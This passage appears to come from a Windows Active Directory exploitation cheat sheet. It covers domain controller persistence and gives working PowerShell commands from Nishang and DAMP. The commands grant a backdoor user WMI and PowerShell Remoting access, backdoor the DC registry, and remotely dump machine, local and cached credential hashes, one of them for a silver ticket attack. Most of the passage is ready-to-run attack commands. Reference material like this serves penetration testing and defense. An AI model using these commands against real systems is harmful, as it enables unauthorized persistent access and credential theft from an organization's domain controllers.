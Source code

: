 Give user WMI access to a machine, using [Set-RemoteWMI](https://github.com/samratashok/nishang/blob/master/Backdoors/Set-RemoteWMI.ps1) cmdlet from Nishang. Can be run to persist access to e.g. DCs.

```powershell
Set-RemoteWMI -UserName BackdoorUser -ComputerName dc.targetdomain.com -namespace 'root\cimv2'
```

PowerShell

For execution, see [‘Command execution with WMI’](https://casvancooten.com/posts/2020/11/windows-active-directory-exploitation-cheat-sheet-and-command-reference/#command-execution-with-wmi) above.

#### Modifying security descriptors for PowerShell Remoting access <a href="#modifying-security-descriptors-for-powershell-remoting-access" id="modifying-security-descriptors-for-powershell-remoting-access"></a>

Give user PowerShell Remoting access to a machine, using [Set-RemotePSRemoting.ps1](https://github.com/samratashok/nishang/blob/master/Backdoors/Set-RemotePSRemoting.ps1) cmdlet from Nishang. Can be run to persist access to e.g. DCs.

```powershell
Set-RemotePSRemoting -UserName BackdoorUser -ComputerName dc.targetdomain.com
```

PowerShell

For execution, see [‘Command execution with PowerShell Remoting’](https://casvancooten.com/posts/2020/11/windows-active-directory-exploitation-cheat-sheet-and-command-reference/#command-executin-with-powershell-remoting) above.

#### Modifying DC registry security descriptors for remote hash retrieval using DAMP <a href="#modifying-dc-registry-security-descriptors-for-remote-hash-retrieval-using-damp" id="modifying-dc-registry-security-descriptors-for-remote-hash-retrieval-using-damp"></a>

Using [DAMP toolkit](https://github.com/HarmJ0y/DAMP), we can backdoor the DC registry to give us access on the `SAM`, `SYSTEM`, and `SECURITY` registry hives. This allows us to remotely dump DC secrets (hashes).

We add the backdoor using the `Add-RemoteRegBackdoor.ps1` cmdlet from DAMP.

```powershell
Add-RemoteRegBackdoor -ComputerName dc.targetdomain.com -Trustee BackdoorUser
```

PowerShell

Dump secrets remotely using the `RemoteHashRetrieval.ps1` cmdlet from DAMP (run as ‘BackdoorUser’ user).

```powershell
# Get machine account hash for silver ticket attack
Get-RemoteMachineAccountHash -ComputerName DC01

# Get local account hashes
Get-RemoteLocalAccountHash -ComputerName DC01

# Get cached credentials (if any)
Get-RemoteCachedCredential -ComputerName DC01
```
